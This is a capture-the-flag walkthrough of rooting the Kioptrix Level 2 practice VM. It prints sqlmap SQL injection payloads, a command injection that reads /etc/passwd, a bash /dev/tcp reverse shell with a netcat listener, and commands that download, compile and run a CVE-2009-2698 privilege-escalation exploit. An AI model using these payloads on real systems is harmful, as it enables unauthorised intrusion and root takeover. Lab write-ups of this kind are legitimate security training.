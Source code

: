# Kioptrix Level 2

Once I found my vm at 192.168.1.100 I began doing some information gathering.

I ran ```nmap -sV 192.168.1.100``` to get some information about the service

I then saw some different services were running since the first Kioptrix. 

The main ones that stuck out to me were Cups 1.1 and mysql.

I looked around to see if there was anything special about these services.

I ended up just looking at the webserver. I was greeted by a friendly login page.

![alt text](https://github.com/wdahlenburg/writeups/blob/master/vulnhub/Kioptrix:%20Level%201.1%20(%232)/images/FirstPage.png "First Page")

I whipped out sqlmap and let it do it's thing.

~~~
$ sqlmap -u http://192.168.1.100/index.php --data="uname=admin&psw=123" --risk 3 --level 5

...
POST parameter 'uname' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 385 HTTP(s) requests:
---
Parameter: uname (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: uname=-5376' OR 6294=6294-- efYv&psw=123

    Type: AND/OR time-based blind
    Title: MySQL <= 5.0.11 AND time-based blind (heavy query)
    Payload: uname=admin' AND 3817=BENCHMARK(5000000,MD5(0x416c7946))-- XQoS&psw=123
---
[12:29:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 4.9
web application technology: PHP 4.3.9, Apache 2.0.52
back-end DBMS: MySQL <= 5.0.11
~~~

I entered the payload into the webpage and I was at the next page. 

![alt text](https://github.com/wdahlenburg/writeups/blob/master/vulnhub/Kioptrix:%20Level%201.1%20(%232)/images/SecondPage.png "Second Page")

This page let me ping a server. This reminded me a lot of the DVWA that I did a few years ago.

I went ahead and sent a ping to my computer and tried to see if I could access /etc/passwd while I was at it.

~~~
192.168.1.50; cat /etc/passwd
~~~

I had a ton of output and the bottom half looked exactly like /etc/passwd would so success we have command injection.

I then opened up a listener on my machine.

```nc -nvlp 4444```

Then on the website I entered

~~~
192.168.1.50; bash -i >& /dev/tcp/192.168.1.50/4444 0>&1
~~~

I checked my command prompt and we had a connection. Woohoo.

Running whoami gave us the user apache. Not quite there.

I looked at root services and didn't find anything I knew how to exploit so I did a lot of googling looking for something to use.

I ended with https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack/blob/master/2009/CVE-2009-2698/CVE-2009-2698.c

~~~
$ cd /tmp/

$ wget --no-check-certificate https://raw.githubusercontent.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack/master/2009/CVE-2009-2698/CVE-2009-2698.c

$ gcc -o exploit CVE-2009-2698.c

$ ./exploit

$ whoami
root
~~~


